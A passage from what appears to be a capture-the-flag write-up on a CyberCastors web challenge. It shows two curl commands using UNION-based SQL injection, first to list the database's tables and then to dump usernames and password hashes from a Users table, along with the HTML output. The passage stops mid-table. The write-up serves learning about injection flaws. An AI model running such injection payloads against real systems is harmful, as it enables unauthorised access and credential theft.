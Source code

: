 ```html
  </tr>
  
  <tr>
    <td style="text-align:center">Sedan</td>
    <td style="text-align:center">Honda</td>
    <td style="text-align:center">Accord</td>
    <td style="text-align:center">2020</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Sedan</td>
    <td style="text-align:center">Honda</td>
    <td style="text-align:center">Civic Si</td>
    <td style="text-align:center">2016</td>
  </tr>
  
  <tr>
    <td style="text-align:center">Sedan</td>
    <td style="text-align:center">Toyota</td>
    <td style="text-align:center">Yaris</td>
    <td style="text-align:center">2020</td>
  </tr>
  
...
```

I wanted to see the different tables of the db, so I tried a union select that would provide me with that information:

I used this `UNION SELECT` to get all tables (padded with 0s for equal number of columns):

```bash
curl --data "id=1 UNION SELECT 0, 0, 0, 0, table_name from information_schema.tables;--" --cookie "client=3123248" http://web1.cybercastors.com:14435/search
```

I found one interesting one called `Users` and queried that:

```bash
curl --data "id=1 UNION SELECT 0, 0, 0, password, username from Users;--" --cookie "client=3123248" http://web1.cybercastors.com:14435/search
```

```html
  <tr>
    <td style="text-align:center">0</td>
    <td style="text-align:center">cf9ee5bcb36b4936dd7064ee9b2f139e</td>
    <td style="text-align:center">0</td>
    <td style="text-align:center">admin@cybercastors.com</td>
  </tr>
  
  <tr>
    <td style="text-align:center">0</td>
    <td style="text-align:center">fe87c92e83ff6523d677b7fd36c3252d</td>
    <td style="text-align:center">0</td>
    <td style="text-align:center">admin@powerpuffgirls.com</td>
  </tr>
  
  <tr>
    <td style="text-align:center">0</td>
    <td style="text-align:center">d1833805515fc34b46c2b9de553f599d</td>
    <td style="text-align:center">0</td>
    <td style="text-align:center">jeff@homeaddress.com</td>
  </tr>
  
  <tr>
    <td style="text-align:center">0</td>
```
